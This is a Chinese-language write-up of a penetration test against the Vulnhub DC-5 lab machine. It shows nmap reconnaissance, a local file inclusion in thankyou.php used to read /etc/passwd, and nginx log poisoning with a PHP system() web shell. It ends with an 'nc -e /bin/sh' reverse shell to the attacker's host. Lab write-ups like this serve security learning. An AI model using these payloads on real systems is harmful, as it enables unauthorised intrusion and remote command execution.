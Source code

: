 ```yaml
---
title: Vulnhub DC-5 渗透测试(1)
tags:
  - - Vulnhub
  - - 渗透测试
  - - 文件包含
  - - Nginx
categories:
  - [项目组, Kali]
abbrlink: cd91c1d7
date: 2021-04-07 15:41:15
---
```


> 进行了一次Vulnhub DC-5 渗透测试，内容较为简单，主要练习相关环境的建立与测试流程。
>
> 靶机：https://www.vulnhub.com/entry/dc-5,314/

## 1. 主机发现

利用`netdiscover`发现主机，`192.168.203.130`

```bash
 $ netdiscover
 Currently scanning: 192.168.234.0/16   |   Screen View: Unique Hosts

 2 Captured ARP Req/Rep packets, from 2 hosts.   Total size: 120
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname
 -----------------------------------------------------------------------------
 192.168.205.1   e2:b5:5f:2f:91:64      1      60  Unknown vendor
 192.168.205.7   00:0c:29:63:68:89      1      60  VMware, Inc.
```

或者使用`nmap -sP 192.168.205.0/24`

```bash
> nmap -sP 192.168.205.0/24
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-11 15:48 CST
Nmap scan report for 192.168.205.1
Host is up (0.00036s latency).
MAC Address: E2:B5:5F:2F:91:64 (Unknown)
Nmap scan report for 192.168.205.7
Host is up (0.0012s latency).
MAC Address: 00:0C:29:63:68:89 (VMware)
Nmap scan report for 192.168.205.4
Host is up.
Nmap done: 256 IP addresses (3 hosts up) scanned in 2.08 seconds
```

## 2. 端口扫描

```bash
> nmap -sV -A 192.168.205.7
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-11 15:37 CST
Nmap scan report for 192.168.205.7
Host is up (0.00093s latency).
Not shown: 998 closed ports
PORT    STATE SERVICE VERSION
80/tcp  open  http    nginx 1.6.2
|_http-server-header: nginx/1.6.2
|_http-title: Welcome
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          43447/tcp   status
|   100024  1          46548/udp6  status
|   100024  1          53003/udp   status
|_  100024  1          60147/tcp6  status
MAC Address: 00:0C:29:63:68:89 (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.93 ms 192.168.205.7

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.11 seconds
```

## 3. 入侵点测试

可以看到主要可利用端口为`80`。

查看了Web页面，没有什么CMS，只有几个标题页脚和几个页面。

其中`Home`、`Solutions`、`About Us`、`FAQ`都是一些文字没有利用空间。

在`Contact`页面中有表单提交，进行尝试分析。

![contact](Vulnhub-DC-5-渗透测试-1/contact.png)

在提交了几次表单后，发现**页脚的年份在不断变化**。

可能是引入了`footer.php`来输出页脚信息。

![footer](Vulnhub-DC-5-渗透测试-1/footer.png)

### 3.1 文件包含漏洞

因为页脚信息可能是通过包含`footer.php`进行输出的，所以可能存在文件包含漏洞，这里简单读一下系统目录发现直接就能读：`http://192.168.205.7/thankyou.php?file=/etc/passwd`

说明此处存在**文件包含漏洞**。

![file_include](Vulnhub-DC-5-渗透测试-1/file_include.png)

同样可以使用伪协议来读取`thankyou.php`源码：`http://192.168.205.7/thankyou.php?file=php://filter/read=convert.base64-encode/resource=thankyou.php`

![read_resource](Vulnhub-DC-5-渗透测试-1/read_resource.png)

解码可以看到确实是通过包含`footer.php`用以输出页脚信息。

```php
···
<footer>
	<?php
		$file = $_GET['file'];
		if(isset($file)){
			include("$file");
		}
		else{
			include("footer.php");
		}
	?>
</footer>
···
```

顺便看一下`footer.php`内容。

```php
<?php
//Random Gen Test
$rndmYears = array(
    "Copyright © 2017", 
    "Copyright © 2018", 
    "Copyright © 2019", 
    "Copyright © 2020"
);
echo $rndmYears[mt_rand(0, count($rndmYears)-1)];
?>
```

### 3.2 `Nginx`日志

可以看到Web服务器使用了`Nginx`服务器，可以探测是否具有`Nginx`日志利用的可能。

![wappalyzer](Vulnhub-DC-5-渗透测试-1/wappalyzer.png)

查看`Nginx`配置文件：`http://192.168.205.7/thankyou.php?file=/etc/nginx/nginx.conf`

![file_conf](Vulnhub-DC-5-渗透测试-1/file_conf.png)

可以看到log存放的目录：

```json
access_log /var/log/nginx/access.log;
error_log /var/log/nginx/error.log;
```

之后发包测试带入`<?php phpinfo();?>`看是否执行。

![cmd_phpinfo](Vulnhub-DC-5-渗透测试-1/cmd_phpinfo.png)

之后验证读取日志文件：`http://192.168.205.7/thankyou.php?file=/var/log/nginx/error.log`

![phpinfo](Vulnhub-DC-5-渗透测试-1/phpinfo.png)

发现成功显示，说明Nginx日志写入命令成功执行。

## 4. 漏洞利用

之后结合本地文件包含与Nginx日志进行Getshell。

传入一句话`http://192.168.205.7/thankyou.php?file=<?php system($_REQUEST['cmd']);?>`

![send_cmd](Vulnhub-DC-5-渗透测试-1/send_cmd.png)

可以看到成功读取内容：`http://192.168.205.7/thankyou.php？file=/var/log/nginx/error.log&cmd=ls`

![cmd_ls](Vulnhub-DC-5-渗透测试-1/cmd_ls.png)

反弹shell：`/thankyou.php?file=/var/log/nginx/error.log&cmd=nc -e /bin/sh 192.168.205.4 4444`

![cmd_nc](Vulnhub-DC-5-渗透测试-1/cmd_nc.png)

nc连接，反弹成功。

```bash
> nc -lvp 4444
listening on [any] 4444 ...
192.168.205.7: inverse host lookup failed: Unknown host
connect to [192.168.205.4] from (UNKNOWN) [192.168.205.7] 57668
ls
about-us.php
contact.php
css
faq.php
footer.php
images
index.php
solutions.php
thankyou.php
```

切换为交互式`bash`：`python -c "import pty;pty.spawn('/bin/bash')"`

```bash
···
solutions.php
thankyou.php
python -c "import pty;pty.spawn('/bin/bash')"
www-data@dc-5:~/html$ ls
ls
about-us.php  css      footer.php  index.php	  thankyou.php
contact.php   faq.php  images	   solutions.php
www-data@dc-5:~/html$
```

之后为提权内容参见*Vulnhub DC-5 渗透测试(2)*。

